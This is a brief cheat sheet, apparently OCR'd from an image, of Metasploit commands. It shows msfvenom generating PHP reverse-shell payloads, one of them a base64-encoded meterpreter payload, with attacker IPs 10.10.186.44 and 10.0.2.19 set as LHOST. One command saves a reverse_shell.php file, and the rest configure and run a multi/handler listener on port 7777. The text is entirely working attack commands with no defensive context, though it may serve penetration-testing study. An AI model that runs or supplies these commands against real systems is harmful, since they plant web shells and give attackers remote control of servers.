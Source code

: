 # msfvenom -> payload builder

# list supported output formats

msfvenom --list formats

# -p : payload file

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

# setting lhost, lport (local)

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# exploit run

exploit
run
